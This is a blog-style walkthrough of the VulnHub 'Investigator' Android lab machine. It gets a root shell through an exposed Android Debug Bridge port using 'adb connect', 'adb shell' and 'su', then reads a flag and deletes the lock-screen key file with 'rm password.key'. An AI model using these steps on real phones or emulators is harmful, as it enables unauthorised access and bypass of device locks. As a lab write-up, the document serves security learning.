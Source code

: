 ```yaml
---
title: 靶机日记 三 | Investigator
top: 10
categories:
  - Technical
tags:
  - Crack
date: 2020-08-21 19:35:43
---
```


You can find the machine there > [Investigator](https://www.vulnhub.com/entry/investigator-1,504/)

![Banner](http://leiblog.wang/static/image/2020/8/q69oEf.jpg)

This is my first time to hack a Android box. Actually , i have no experience in Android development , but this is a beginner Vuln target machine, i say to myself, it's a great way to learn something new!

<!-- more -->

![](http://leiblog.wang/static/image/2020/8/QxnxDS.png)

**start always with nmap**

```zsh
Princeling-Mac at ~ ❯ nmap -sC -sV -p- -oN nmap/initial 192.168.56.103
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-06 01:52 EEST
Nmap scan report for android-25abe18209db8058.zte.com.cn (192.168.1.10)
Host is up (0.00025s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
5555/tcp  open  adb     Android Debug Bridge device (name: android_x86; model: VMware Virtual Platform; device: x86)
8080/tcp  open  http    PHP cli server 5.5 or later
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Welcome To  UnderGround Sector
22000/tcp open  ssh     Dropbear sshd 2014.66 (protocol 2.0)
| ssh-hostkey: 
|   2048 19:e2:9e:6c:c6:8d:af:4e:86:7c:3b:60:91:33:e1:85 (RSA)
|_  521 46:13:43:49:24:88:06:85:6c:75:93:73:b5:1d:8f:28 (ECDSA)
MAC Address: 00:0C:29:37:42:7C (VMware)
Service Info: OSs: Android, Linux; CPE: cpe:/o:linux:linux_kernel
```

Tcp port 5555 is an Android Debug service, we can use adb tools to exploit it.

**expliot with adb service**

```zsh
Princeling-Mac at ~ ❯ adb connect 192.168.56.103
connected to 192.168.56.103:5555
Princeling-Mac at ~ ❯ adb shell
uid=2000(shell) gid=2000(shell) groups=1003(graphics),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats)@x86:/ $
```

We can even get root shell easily , just type in 'su'.

```zsh
uid=2000(shell) gid=2000(shell) groups=1003(graphics),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats)@x86:/ $ su
uid=0(root) gid=0(root)@x86:/ # find / -type d -name root
find: /data/property/persist.sys.dalvik.vm.lib: Input/output error
/data/root
```

And get the first key!

```zsh
1|uid=0(root) gid=0(root)@x86:/ # cd /data/root/
uid=0(root) gid=0(root)@x86:/data/root # ls
flag.txt
uid=0(root) gid=0(root)@x86:/data/root # cat flag.txt
Great Move !!!

Itz a easy one right ???

lets make this one lil hard


You flag is not here  !!!


Agent "S"   Your Secret Key ---------------->259148637
uid=0(root) gid=0(root)@x86:/data/root #
```

`259148637`is wrong pin, but we can remove pin with root shell.

```zsh
uid=0(root) gid=0(root)@x86:/data/system # cd /data/system
uid=0(root) gid=0(root)@x86:/data/system # rm password.key
```

